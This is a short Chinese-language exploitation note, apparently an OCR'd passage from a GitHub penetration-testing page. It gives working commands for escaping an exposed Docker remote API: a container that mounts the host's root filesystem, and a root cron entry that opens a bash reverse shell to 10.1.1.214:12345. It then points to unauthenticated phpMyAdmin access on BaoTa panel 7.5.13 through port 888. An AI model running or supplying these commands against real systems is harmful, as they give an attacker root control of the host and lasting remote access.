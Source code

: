 1、新运行一个容器，挂载点设置为服务器的根目录挂载至/mnt目录下。

```
sudo docker -H tcp://10.1.1.211:2375 run -it -v /:/mnt nginx:latest /bin/bash

```

2、在容器内执行命令，将反弹shell的脚本写入到/var/spool/cron/root

```
echo '* * * * * /bin/bash -i >& /dev/tcp/10.1.1.214/12345 0>&1' >> /mnt/var/spool/cron/crontabs/root

```

3、本地监听端口，获取对方宿主机shell。

###### 宝塔面板

(Linux)、7.5.13(Linux)版本的宝塔面板存在未授权访问phpmyAdmin的漏洞，通过访问`ip:888/pma`则可无需任何登录操作直接进入phpmyAdmin



















